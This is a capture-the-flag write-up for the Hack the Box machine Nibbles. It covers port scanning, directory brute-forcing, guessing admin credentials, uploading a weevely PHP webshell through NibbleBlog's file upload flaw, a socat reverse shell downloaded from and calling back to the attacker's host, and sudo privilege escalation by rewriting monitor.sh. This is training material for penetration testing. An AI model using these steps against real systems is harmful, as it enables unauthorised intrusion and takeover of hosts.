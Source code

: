 ```yaml
---
layout: post
title: "Hack the Box - Nibbles Write up"
date: 2018-05-09
description: "Write up for the Hack the box Machine Nibbles."
categories: [write-up, hackthebox]
tags: [writeup, pentesting, hackthebox]
---
```

You can view the original writeup on my blog here: https://dastinia.io/write-up/hackthebox/2018/05/09/htb-nibbles/

## Introduction
![Nibbles](/assets/nibbles/1.png)

Nibbles was a pretty nice, refreshing, beginner-friendly box. It wasn't overly complex, but still had enough moving parts so that you were required for to think about what actions you were taking and why. 

## Tools Used 
- [Nmap](https://nmap.org/)
- [GoBuster](https://github.com/OJ/gobuster) 
- [Weevley3](https://github.com/epinna/weevely3)
- [socat](http://www.dest-unreach.org/socat/) 

## Enumeration
### Scanning

Like with every box Let's begin by scanning Nibbles at (10.10.10.75) with Nmap. 

```
root@dastinia:~/htb/nibbles# nmap -sV -sC -Pn 10.10.10.75 -oA nibbles_initial_scan
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-09 13:50 EDT
Nmap scan report for 10.10.10.75
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.83 seconds
```

The scan yields 2 open ports a webserver on port 80, and *SSH* on 22.

### Enumerating HTTP Port 80 (nibbleblog)

Visiting the web server on port 80 the text `Hello world`, and not much else from from a visual perspective. Taking a look at the source code of the page reveals a a comment in the code letting us know that there is `/nibbleblog/` directory.


![Nibbleblog comment left in page source](/assets/nibbles/2.png "Nibbleblog comment left in page source")


Going to the `/nibbleblog/` directory brings us to the main page of a blogging platform [NibbleBlog.](https://github.com/dignajar/nibbleblog)
![NibbleBlog Main Page](/assets/nibbles/3.png "NibbleBlog Main Page")


Hitting the site with `gobuster` in the reveals the following discoverable web content.

```
root@dastinia:~/htb/nibbles# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/ -x php,html -s 200,204,301,302,307,403 -t 100 | tee gobuster_nibbleblog
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.75/nibbleblog/
[+] Threads      : 100
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 307,403,200,204,301,302
[+] Extensions   : .php,.html
=====================================================
/content (Status: 301)
/index.php (Status: 200)
/themes (Status: 301)
/sitemap.php (Status: 200)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
```

Taking a look at the `README` file at `http://10.10.10.75/nibbleblog/README`, we can see that the current version of this blogging framework is: `version: v4.0.3`, and was released in 2014.

Searching for `Nibbleblog 4.0.3 exploit` or `Nibbleblog exploit` into google/searchsploit returns that this particular version of Nibbleblog is vulnerable to an `arbitrary file upload`, but requires authentication. So based on our prior information, it's safe to say that this will likely going to be our point of entry into the box. See a [write-up about the vulnerability here](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)


After some educated guessing you will discover that the credentials to authenticate to the nibbleblog admin panel is: `admin:nibbles`

I noticed a lot of people had issues with discovering what the admin panel credentials were. Normally for HTB boxes, if the login the credentials are guessable they usually look like:


```
admin:admin
admin:password
admin:{BOX_NAME}
{BOX_NAME}:{BOX_NAME}
{BOX_NAME}:password
{BOX_NAME}:admin
etc...
```
Usually if those don't work, then we likely have to dig deeper because there's some other clue that we need to find first.  

![Authenticating to the NibbleBlog Admin Panel](/assets/nibbles/5.png "Authenticating to the NibbleBlog Admin Panel")

## Exploitation

There is a Metasploit module for this vulnerability, but I opted to not use it because exploiting the vulnerability was simple enough, and I couldn't think of any notable benefits of using the Metasploit framework over doing it manually. 

From reading a description of the vulerbility report states that when uploading image files via the "My image" plugin nibbleblog keeps the original extension & doesn't check the file type or content of the file when uploaded. This is a textbook example of an arbitrary file upload vulnerability. My PHP webshell shell of choice is [weevley3](https://github.com/epinna/weevely3). Weevly3 adds a ton of extended functionality from a standard php webshell & improves the overall QoL of using php shells while pentesting. 


To exploit this vulnerbilty all we need to do is: 
1. authenticate to the admin panel 
2. Ensure that the "My image plugin" is enabled. 
3. Upload our PHP webshell. (In this case weevely3).


```
root@dastinia:~/htb/nibbles# weevely generate nibbles /root/htb/nibbles/nibbles.php 
Generated backdoor with password 'nibbles' in '/root/htb/nibbles/nibbles.php' of 1476 byte size.
```

```
root@dastinia:~/htb/nibbles# weevely http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php nibbles id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

root@dastinia:~/htb/nibbles# weevely http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php nibbles

[+] weevely 3.2.0

[+] Target:	nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image
[+] Session:	/root/.weevely/sessions/10.10.10.75/image_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> ls
db.xml
image.php

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image $ pwd 
/var/www/html/nibbleblog/content/private/plugins/my_image
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image $ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

This box had a decent amount of activity at the time I was redoing it, when someone uploads a file using the "My Image Plugin" it will overwrite the `image.php` file, which started started to get pretty annoying, so I decided to upgrade to a socat shell instead. 

_my attack box_
```
root@dastinia:~/htb/nibbles# socat file:`tty`,raw,echo=0 tcp-listen:4545
```
_Nibbles box_
```
nibbler@Nibbles:/tmp $ wget -q 10.10.15.63:9999/socat
nibbler@Nibbles:/tmp $ chmod +x socat
nibbler@Nibbles:/tmp $ ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.63:4545
```


### Getting Root

First thing I usually do when I get on a box is to check if the current user is in sudoers/what can be ran as sudo by running `sudo -l`

```
nibbler@Nibbles:/home $ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

From the sudo output it looks like we can run the shell script `monitor.sh` as root. 

Checking the permissions on the file it seems we have full control over it, so it should be an easy `root.txt`
We can replace `monitor.sh` with any shell script that we want to run as the root user. 


I made simple shell script that would spawn a new shell.  

```bash
#!/bin/sh
sh -c /bin/sh
```

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
#!/bin/sh
sh -c /bin/sh
nibbler@Nibbles:/home/nibbler/personal/stuff $ sudo -u root /home/nibbler/personal/stuff/monitor.sh

sudo: unable to resolve host Nibbles: Connection timed out
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
...[snip]...
```


